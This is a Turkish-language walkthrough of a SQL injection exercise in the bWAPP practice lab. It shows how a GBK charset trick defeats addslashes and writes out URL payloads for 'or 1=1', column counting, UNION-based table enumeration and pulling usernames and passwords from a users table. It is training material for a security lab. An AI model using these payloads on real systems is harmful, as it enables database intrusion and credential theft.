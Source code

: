 ## bWAAP SQL Injection (GET/Search) Level Medium
Movies kısmına `'` karakteri koyuyoruz ve hata alamadığımız görüyoruz.
![](/images/first.PNG)
Bundan anlıyoruz ki `'` işaretini escapliyor. SQL sorgumuzun oluştuğu son hal ise aşağıdaki gibi olmaktadır;
```SQL
SELECT * FROM movies WHERE mname LIKE '%\'%'
```
Burada PHP tarafinda addslashes fonksiyonunun kullanıldığını görebiliriz challenge da bu fonksiyonu baypaslayabilmek için mysql char setimizin `character-set-server=GBK` şeklinde olması gereklidir.

###### MYSQL CHARSET AYARI

XAMPP yönetim panelinden my.ini konfigürasyon dosyasını açalım ve character-set-server’ı GBK olarak değiştirelim.

###### Addslashes

[Ömer Çıtak](https://omercitak.com/):
>Hex karşılığı 0xbf5c olan “¿\” karakteri, utf 8 charsetinde 2 karakter, GBK charsetinde 1 karakter olarak algılanıyor. İnjection saldırısında sorguya tek tırnak, yani 0x27 gönderdiğiniz vakit mysql_real_escape_string veya addslashes fonksiyonlarımız bizim tırnağımızı “\’” haline çeviriyor. Tırnaktan önce “¿” (0xbf) karakterini gönderdiğimizde yani “¿’” (0xbf27) karakterini gönderdiğimizde, tırnaktan önce \ eklendiğinden gönderdiğimiz karakter “¿\’” (0xbf5c27) halini alıyor. GBK charseti “¿\” karakterini tek karakter olarak aldıladığından sondaki tırnağımız boşa çıkıyor, böylece sorgunun gidişatını değiştirmiş oluyorsunuz. Sonrasında injection ile sorguyu istediğimiz şekle sokabiliriz.

###### bWAAP SQL Injection (GET/Search)

Uygulamamızda rast gele birşeyler aratalım ve urlin title kısmını `title=%bf%27` olarak değiştirlerim.
![](/images/error.jpeg)
tek tırnak işaretimiz fazla olduğu için sql hatası aldık.Url in title kısmını `title=%bf%27or1=1--+` değiştirir isek artık hata almadığımızı ve iki koşuldan birisi doğru olduğu için tüm filimleri görmüş oluyoruz.
![](/images/or1=1.jpeg)
Tablomuzun kolon sayısını öğrenmek için `title=%bf%27GROUP BY (değer)--+` değer kısmını uygulama hata verene kadar bir bir arttıralım ve hata verdikten bir önceki sayıymız koln sayımızdır.
Koln sayımızı bulduğumuza göre UNION sorgumuzu çalıştırabliriz.Tablo isimlerini bulmak için information_schema tablosunu kullanıyoruz. `title=%bf%27%20UNION%20SELECT%20NULL,table_name,NULL,NULL,NULL,NULL,NULL%20FROM%20information_schema.tables--+`
![](/images/tables.jpeg)
Sırada colum isimini bulamız gerekli ama bunu malesef ki başaramıyoruz çünkü tırnak karakterini escaplemek için `%bf`kullanmamız gerekli ve bu karakter tablo ismimizin içnie giriyor ve tablo ismimizi bozuyor.

Örnek:table_name='' olarak string içine yazmamız gerek tablo ismi aşşağıdaki gibi tablo ismimizin sonuna %bf karakteri geliyor.
**`title=%bf%27%20UNION%20SELECT%20NULL,column_name,NULL,NULL,NULL,NULL,NULL%20FROM%20information_schema.columns WHERE `_table_name=%bf%27tablename%bf%27--+**

Users isminde tablo bulduğumiz için klonları tahmin edebliriz.titleımızı değiştirerek kullanıcı adı ve parolamızı çekiyoruz. `title=%bf%27%20UNION%20SELECT%20NULL,login,password,NULL,NULL,NULL,NULL%20FROM%20users--+`
![](/images/users.jpeg)
